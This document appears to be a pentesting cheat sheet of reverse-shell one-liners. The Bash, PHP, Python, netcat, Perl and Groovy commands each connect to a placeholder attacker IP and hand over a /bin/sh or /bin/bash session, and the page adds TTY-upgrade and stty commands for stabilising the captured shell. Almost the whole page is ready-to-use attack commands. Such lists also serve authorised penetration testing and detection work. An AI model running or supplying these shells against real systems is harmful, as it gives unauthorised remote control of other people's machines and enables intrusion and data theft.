 # Reverse Shells

### Software specific shells

| Name   | Value                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| ------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Bash   | bash -i >& /dev/tcp/111.1111.111.111/8080 0>&1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| PHP    | php -r '$sock=fsockopen("111.1111.111.111",8080);exec("/bin/sh -i <&3 >&3 2>&3");'                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| Python | python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("111.1111.111.111",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"]);'                                                                                                                                                                                                                                                                                                                                          |
| NC v1  | nc -e /bin/sh 111.1111.111.111 8080                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| NC v2  | rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 111.1111.111.111 8080 >/tmp/f                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| Perl   | perl -e 'use Socket;$i="111.1111.111.111";$p=8080;socket(S,PF\_INET,SOCK\_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr\_in($p,inet\_aton($i)))){open(STDIN,">\&S");open(STDOUT,">\&S");open(STDERR,">\&S");exec("/bin/sh -i");};'                                                                                                                                                                                                                                                                                                                                             |
| Groovy | String host="{your\_IP}"; int port=8000; String cmd="/bin/bash"; Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()) {while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close(); |

### Shell Upgrades



| Name     | Value                                           |
| -------- | ----------------------------------------------- |
| Perl     | perl -e 'exec "/bin/bash";'                     |
| Bash     | echo os.system('/bin/bash')                     |
| Python 3 | python3 -c 'import pty; pty.spawn("/bin/bash")' |
| Python 2 | python -c 'import pty; pty.spawn("/bin/bash")'  |

### Shell Fixes



| Name            | Value              |
| --------------- | ------------------ |
| Fix Window Size | stty rows X cols Y |
| Get Window Size | stty size          |
| Fix Output      | stty raw -echo     |
